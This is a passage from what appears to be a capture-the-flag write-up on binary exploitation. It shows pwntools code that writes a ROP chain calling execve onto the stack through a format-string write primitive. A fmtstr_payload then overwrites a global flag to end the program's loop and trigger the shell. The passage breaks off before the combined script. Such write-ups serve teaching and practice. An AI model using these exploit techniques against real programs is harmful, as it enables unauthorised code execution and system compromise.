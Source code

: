 ```py
rop_chain += p64(pop_rdx_rax) + p64(envp) + p64(execve_syscall_number)
rop_chain += p64(syscall)


for i in range(0, len(rop_chain), 4):
    dword = rop_chain[i:i+4]

    fmt_str.write(saved_rip + i, dword)
    fmt_str.execute_writes()
```

## Stop the endless loop

Everything is in place! We have our ropchain on the stack, that will be executed and spawn a shell once the function ends. Yes, but... the function never ends! \
If we take a look at the function in IDA, we can see it checks a global variable.

![](decomp.png)

This global variable is located in the `.bss` section and there's no code anywhere that is able to change its value.

![](bss.png)

We just have to write a 1 in this location and the loop will end, triggering the end of the function and so our ropchain execution!

```py
exit_payload = fmtstr_payload(fmt_str.offset, { should_exit: 1 })
r.sendlineafter(b"> ", exit_payload)
```

## Putting everything together

If we put every step together in one big script to do the full exploitation, here is how it looks like:
